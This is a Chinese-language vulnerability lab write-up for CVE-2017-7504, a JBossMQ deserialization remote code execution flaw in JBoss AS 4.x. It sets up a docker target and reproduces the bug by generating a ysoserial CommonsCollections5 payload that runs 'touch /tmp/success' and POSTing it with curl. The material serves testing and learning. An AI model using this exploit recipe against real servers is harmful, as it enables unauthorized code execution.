 # JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

参考：

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## 漏洞环境

执行如下命令启动JBoss AS 4.0.5：

```
docker compose up -d
```

环境启动后，目标为`http://your-ip:8080`。

## 漏洞复现

该漏洞出现在`/jbossmq-httpil/HTTPServerILServlet`请求中，我们借助ysoserial的eCommonsCollections5利用链来复现。生成Payload：

```
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

我们将1.ser文件内容作为POST Body发送：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

![](1.png)

执行`docker compose exec jboss bash`进入容器，可见`/tmp/success`已成功创建。
